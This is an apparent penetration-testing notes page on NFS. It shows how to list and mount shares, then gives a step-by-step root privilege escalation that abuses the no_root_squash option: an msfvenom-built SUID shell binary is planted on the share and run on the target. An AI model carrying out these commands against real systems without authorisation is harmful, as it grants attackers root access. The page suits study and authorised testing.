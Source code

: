 # NFS

Show NFS shares:
```bash
$ sudo showmount -e <target>
$ sudo nmap -sV --script=nfs-showmount <target>
```

Mount a share:
```bash
$ mount -o rw,vers=2 <target>:<share> <local_directory>
```
```bash
$ mount -o rw,vers=2 10.0.2.77:bobshare /tmp/nfs/
```

## root squashing

If you create files in mounted share, then the file will have the user/group of the remote user.

This is obviously dangerous if the remote user is `root` with suid 0.

By default remote root users are "squashed" and their created files are owned by nobody/nogroup.

But this might be disabled (or you can disable it). 
The share option that disables this is called `no_root_squash`.


Check the contents of `/etc/exports` for shares with the `no_root_squash` option:
```bash
$ cat /etc/exports
...
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

Here the share called `/tmp` has the `no_root_squash` option enabled.

Switch to your local root user.

Mount the share:
```bash
# mkdir /tmp/nfs
# mount -o rw,vers=2 192.168.1.25:/tmp /tmp/nfs
# msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
# chmod +xs /tmp/nfs/shell.elf
```

Then on the target execute the root SUID shell.elf and you will have a root shell.


A great link about this: https://www.errno.fr/nfs_privesc.html

Also includes a local privesc for when a no-root-squash share is limited to localhost.
